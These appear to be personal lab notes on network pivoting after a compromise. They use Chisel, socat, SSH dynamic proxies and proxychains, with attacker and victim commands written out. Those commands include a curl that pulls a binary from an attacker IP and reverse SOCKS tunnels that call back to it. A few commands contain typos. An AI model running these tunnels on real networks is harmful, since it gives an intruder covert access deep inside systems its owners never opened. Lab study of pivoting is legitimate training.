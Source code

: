 
>[!important] the fact it doesn't require SSH access on the compromised target is a big bonus
- For Tunneled proxy or port forward regardless we have a SSH connection or not will use an awesome tool called Chisel.

Linux
https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_amd64.gz

Window
https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_windows_amd64.gz


```
gunzip * 
```

```
 file chisel_1.9.1_*
```
![[Pasted image 20231223223904.png]]

```
chmod +x chisel_1.9.1_linux_amd64 
```
![[Pasted image 20231223224004.png]]

|| SOCKS proxy, and port forwarding ||

chisel binary has two modes: _client_ and _server_. You can access the help menus for either with the command: `chisel client|server --help`
```
./chisel_1.9.1_linux_amd64 server --help | head -19
```
![[Pasted image 20231223224539.png]]

```
./chisel server -p LISTEN_PORT --reverse &
```

```
curl 10.50.106.240/chisel_1.9.1_linux_amd64  -o chisel-sardarji
```

```
Attacker
./client server -p 1337 --reverse &
```
![[Pasted image 20231224120045.png]]


```
./chisel_1.9.1_linux_amd64 server -p 1337 --reverse &
```
![[Pasted image 20231224120153.png]]


```
./socat tcp:10.50.106.240:8001 tcp:10.200.105.200:80,fork &

./socat tcp-l:2222,fork,reuseaddr tcp:172.16.0.100:22 &

ssh -L 5901:10.200.105.200:80root@thomaswreatg.thm

Reverse Proxy Chisel
Attacker
./client server -p 1337 --reverse &
Victim
./chisel client 10.50.106.240:1337 R:socks &


Forward Sock Proxy
Victim
./chisel server -p LISTEN_PORT --socks5

Attacker
./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks

```


<h2>So basically we are doing Reverse Socks / Forward Socks/ Remote Port Forward / Local Port Forward </h2>

```

./chisel server -p 4242 --reverse
./chisel client 172.16.0.200:4242 R:socks &

./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &
./chisel client 172.16.0.200:1337 R:3306:172.16.0.100:3306 &

./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT
./chisel client 172.16.0.10:4444 8000:172.16.0.5:80
```

>[!Important]
```
How will we talk to destbox.local than ??
Sock Proxies : A sock proxy difers from traditional port forwarding in that sock is a protocol,
whereas forwarding is routing.

OSI Layer:
Port forwarding happening in the network layer (i.e. send any traffic over a port forward: ssh traffic, http traffic, raw bytes.........)
while
Socks proxying works at the application layer (i.e. communication will occue using the defined protocol)

1st machine (Attacker to Jumpbox1)
SOCK proxy b/w 2 machines:
ssh -f -N -D 127.0.0.1:8888 user@jumpbox1.local

Once the Socks proxy established we can than use proxychains4 to communicate over the newly established tunnel/proxy.

SOCK proxy b/w 2 machines: (Jumpbox1 to Jumpbox2)
ssh -f -N -D 127.0.0.1:9999 user@jumpbox1.local
Keep in mind that the proxychains4 is going to use each proxy in a ordered list approach.

Finally we can talk Attacker to Destbox
proxychains4 -f ~/new-proxychains.conf curl http://destbox.local
```

